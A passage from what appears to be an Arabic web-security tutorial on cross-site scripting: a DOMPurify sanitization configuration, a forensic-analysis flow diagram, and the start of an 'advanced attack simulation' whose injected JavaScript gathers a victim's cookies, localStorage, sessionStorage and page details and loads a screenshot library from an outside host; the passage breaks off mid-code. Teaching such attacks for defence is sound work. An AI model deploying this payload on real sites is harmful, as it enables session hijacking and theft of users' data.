 ### 5. استخدام مكتبات التطهير (Sanitization Libraries)

```javascript
// استخدام DOMPurify
const clean = DOMPurify.sanitize(userInput, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'ul', 'ol', 'li'],
    ALLOWED_ATTR: ['href', 'target'],
    ALLOW_DATA_ATTR: false,
    USE_PROFILES: { html: true },
    FORBID_TAGS: ['script', 'style', 'iframe', 'object', 'embed'],
    FORBID_ATTR: ['onload', 'onerror', 'onclick'],
    SANITIZE_DOM: true
});

document.getElementById('content').innerHTML = clean;
```

## تحليل الأثر (Forensic Analysis) للهجمات

بعد اكتشاف هجوم XSS، من المهم تحليل الأثر لفهم مدى الضرر:

```
+----------------------+       +------------------------+       +------------------+
|                      |       |                        |       |                  |
| تحليل الشيفرة الخبيثة +------>+ تحديد البيانات المسربة +------>+ تقييم الأثر       |
|                      |       |                        |       |                  |
+----------------------+       +------------------------+       +------------------+
         |                                 |                             |
         v                                 v                             v
+----------------------+       +------------------------+       +------------------+
|                      |       |                        |       |                  |
| تحليل سجلات الخادم   +------>+ تتبع نشاط المهاجم       +------>+ إجراءات التخفيف   |
|                      |       |                        |       |                  |
+----------------------+       +------------------------+       +------------------+
```

## سيناريوهات متقدمة لمحاكاة هجمات XSS

### سيناريو 1: هجوم XSS مع data exfiltration

```javascript
// الكود المحقون في الموقع المصاب
(function() {
    // 1. جمع بيانات الضحية
    const victim = {
        url: location.href,
        cookies: document.cookie,
        localStorage: JSON.stringify(localStorage),
        sessionStorage: JSON.stringify(sessionStorage),
        userAgent: navigator.userAgent,
        screenRes: `${screen.width}x${screen.height}`,
        browser: navigator.userAgent,
        ip: '', // سيتم تحديده من الخادم
        time: new Date().toString()
    };
    
    // 2. التقاط لقطة شاشة
    const captureScreen = async () => {
        const script = document.createElement('script');
        script.src = 'https://html2canvas.hertzen.com/dist/html2canvas.min.js';
        document.body.appendChild(script);
        
        return new Promise(resolve => {
            script.onload = async () => {
```